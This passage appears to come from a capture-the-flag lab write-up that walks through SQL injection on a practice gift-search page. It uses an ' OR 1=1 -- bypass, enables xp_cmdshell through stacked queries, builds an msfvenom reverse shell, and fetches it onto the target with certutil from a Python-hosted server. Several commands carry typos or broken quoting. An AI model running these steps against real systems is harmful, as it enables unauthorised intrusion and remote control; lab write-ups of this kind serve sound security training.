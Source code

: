 ```$query = "SELECT * FROM tbl_ornaments WHERE color = 'Red'";```

We can attempt to leverage the ```' OR 1=1 -- ``` payload we looked at earlier in order to bypass the intended filter:

```https://<IP_ADDRESS>/giftresults.php?age=' OR 1=1 --```

Success! We are returned with a list of all the gifts in the database:

![Alt text](/Advent%20of%20Cyber%202023/Resources/giftsearchreturn.png)

## Calling Stored Procedures

Stacked querires can be used to called stored procedures, or functions within a databse management system. A MS SQL Server stored procedure called ```xp_cmdshell``` allows for executing operating system calls. It allows SQL Server to interacts directly with the host OS command shell. It is disabled by default on production servers. We can manually enable ```xp_cmdshell``` in SQL Server through ```EXEC``` or execute queries. However, a user must have the ```ALTER SETTINGS``` server-level permissions. We can attempt to enable ```xp_cmdshell``` in hopes of a misconfiguration on the server:

```EXEC sp_configure 'show advanced options', 1;```

```RECONFIGURE;```

```EXEC sp_configure `xp_cmdshell', 1;``

```RECONFIGURE```

- First, we enabled the advanced configuration optiosn with ```show adanced options``` and setting it to ```1```
- Next, we saved the changes to the running configuration using ```RECONFIGURE```
- Lastly, we enabled the ```xp_cmdshell``` by setting it to ```1``` and saving it to the current running config. 

We can append the above to the URL:

![Alt text](/Advent%20of%20Cyber%202023/Resources/stackedquery.png)

However, we do not get any returned output. Therefore, we are left in the dark as far as if our query worked or not. We can validate if our approach worked in other ways, however.

## Remote Code Execution

We can see if we have RCE by attempting to execute ```certutil.exe``` on the target machine. It is a binary signed by Microsoft that allows us to make HTTP/s connections. We can use it to make an HTTP request to download a file from the web server to confirm that our command was sent.

We can create a payload using ```MSFvenom`` which is a command-line payload generation tool. We can use this to make a reverse shell connection back to out Kali machine. Our command for his is the following:

```msfvenom -p windows/x64/shell_reverse_tcp LHOST=<OUR_IP_ADDRESS> LPORT=4444 -f exe -o reverse.exe```

Now that we have our ```reverse.exe```, we can establish a reverse TCP connection to our machine over port ```4444```. We will create a HTTP server on our machine using Python to host the file:

```python 3 -m http.server 8000```

We can now use our stacked query to call ```xp_cmdshell``` and execute ```certutil.exe``` to download our payload from our hosted web server:

![Alt text](/Advent%20of%20Cyber%202023/Resources/stackedquery2.png)

In the above query, we downloaded the reverse shell payload off our hosted HTTP server and saved it on the target machine in the ```C:\Windows\Temp``` directory.
```
